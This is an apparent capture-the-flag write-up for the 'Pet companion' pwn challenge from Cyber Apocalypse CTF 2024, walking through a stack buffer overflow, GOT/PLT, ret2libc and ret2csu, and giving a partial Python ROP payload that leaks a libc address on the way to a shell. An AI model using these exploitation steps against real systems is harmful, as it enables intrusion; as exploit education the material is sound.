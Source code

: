 ```yaml
---
title: "Cyber Apocalypse CTF 2024: Pet companion"
description: "Pwn Pet Companion writeup for Cyber Apocalypse CTF 2024"
date: 2024-03-15
tags: ['pwn', 'ret2csu']
image: './cyber-apocalypse-ctf-2024.jpg'
authors: ['p4rr4']
---
```



## Basic analysis

We are working with a 64-bit binary, dynamically linked, and we are also given the loader and `libc` used in the remote server. Let's check its protections using `checksec`:

```javascript
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
``` 

## Interaction

When interacting with the binary, it shows us a prompt to enter our input:

```bash
❯ ./pet_companion

[!] Set your pet companion's current status: good

[*] Configuring...
```

Let's try to overflow the buffer:

```bash
❯ ./pet_companion

[!] Set your pet companion's current status: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

[*] Configuring...

[1]    21100 segmentation fault (core dumped)  ./pet_companion
```

Good news, we have a buffer overflow. Now, we open it up with `ghidra` to have a closer look.

## Disassembly

The only interesting function is the `main` one:

```c
undefined8 main(void)
{
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  setup();
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  write(1,"\n[!] Set your pet companion\'s current status: ",0x2e);
  read(0,&local_48,0x100);
  write(1,"\n[*] Configuring...\n\n",0x15);
  return 0;
}
```

As we can see, it initialises the buffer, and then takes 0x100 bytes (256 in decimal) from our input into the buffer, leading to the overflow.

## Exploitation

Thanks to the buffer overflow, we have the power to hijack the execution flow of the program in order to return to the address that we want. However, we don't have any `win` function and shellcode can't be injected into the stack and executed due to the NX bit. Despite that, we have the `write` function loaded into the binary, which gives us the possibility to perform a `ret2libc` attack. 

As we said before, this binary is dynamically linked, which means that it imports the functions from its libraries during runtime, rather than incorporating them directly into the binary itself when it is compiled. This process is done through both the [Global Offset Table (GOT) and Procedure Linkage Table (PLT)](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got). The GOT stores entries which contain the addresses of library functions loaded at runtime (this is done by the loader), while the PLT contains a series of stubs that redirect function calls to the appropriate shared library functions. We can easily see how this works at a low level using `gdb`:

```javascript
→   0x4006a8 <main+94>        call   0x4004f0 <write@plt>
   ↳    0x4004f0 <write@plt+0>    jmp    QWORD PTR [rip+0x200ae2]   # 0x600fd8 <write@got.plt>
```

When setting a breakpoint just before the call to `write` inside the `main` function, we can see how it first calls the PLT address of `write`, which will then jump to the GOT entry containing the `libc` address for `write`. 

### ret2libc?

Ret-to-libc is an attack based on using the functions and resources already loaded in the `libc`, such as the `system` function and `/bin/sh` string, to exploit the program.

The goal in our case would be to load the `/bin/sh` string as first parameter and the make a call to `system` to spawn a shell. However, we don't know the addresses of these two, as they are loaded at runtime and randomised due to [ASLR](https://www.techtarget.com/searchsecurity/definition/address-space-layout-randomization-ASLR), so we have to find a way to leak these addresses at runtime. Here is when functions such as `puts` or `write` come into play.

As `write` is already loaded in the PLT section we saw before, we can call it and pass the GOT address of `write` as parameter in order to leak it. From here, we can leak the addresses of other functions in order to find the `libc` the binary is using and finally calculate the offset of `system` and `/bin/sh` with websites like [this](https://libc.blukat.me/). The [`write`](https://www.man7.org/linux/man-pages/man2/write.2.html) function takes three parameters, which means that we will have to find gadgets to control `rdi`, `rsi` and `rdx`. Sadly, we won't find such gadgets :(

### ret2csu

When we find ourselves lacking gadgets to complete our exploit, we can use a series of functions that allow the dynamic linking of the binary. In this case, we will focus on `__libc_csu_init`, which contains the following two gadgets:
 
```javascript
0x000000000040073a <+90>:	pop    rbx
0x000000000040073b <+91>:	pop    rbp
0x000000000040073c <+92>:	pop    r12
0x000000000040073e <+94>:	pop    r13
0x0000000000400740 <+96>:	pop    r14
0x0000000000400742 <+98>:	pop    r15
0x0000000000400744 <+100>:	ret 
```

```javascript
0x0000000000400720 <+64>:	mov    rdx,r15
0x0000000000400723 <+67>:	mov    rsi,r14
0x0000000000400726 <+70>:	mov    edi,r13d
0x0000000000400729 <+73>:	call   QWORD PTR [r12+rbx*8]
*SNIP*
0x000000000040072d <+77>:	add    rbx,0x1
0x0000000000400731 <+81>:	cmp    rbp,rbx // !! rbp = rbx = 1
```

As we can see, we can control `r13`, `r14` and `r15`, which will respectively go into `rdi`, `rsi` and `rdx`. Finally, it will call the funciton calculated in `[r12+rbx*8]`. If we put 0 in `rbx` and 1 in `rbp`, we will pass the comparison and successfully jump to `r12`. With this, we have enough to perform the attack.

### Attack

Firstly, we have to find the offset at which we start overwriting the return address, using `gdb`:

```bash
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: pet_companion 

[!] Set your pet companion\'s current status: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
*SNIP*
gef➤  pattern search $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```

Now we know that we must start our payload with 72 bytes of padding until we reach the return address. The following step is to leak the address using the gadgets stated above:

```python
gadget_1 = 0x000000000040073a
gadget_2 = 0x0000000000400720

payload = b''
payload += b'a'*72

payload += p64(gadget_1)
payload += p64(0) #rbx
payload += p64(1) #rbp
payload += p64(exe.got.write) #r12
payload += p64(1) + p64(exe.got.write) + p64(8) # r13, r14, r15 -> rdi, rsi, rdx
payload += p64(gadget_2)
payload += p64(0) * 7 #padding
payload += p64(exe.sym.main) # return to main
```

Finally, calculate the offset of `system` and `/bin/sh` and craft the final payload to spawn the shell! (Full exploit can be found [here](https://github.com/p4rr4/ctf-writeups/blob/main/cyber-apocallypse-2024/pet-companion/xpl.py))
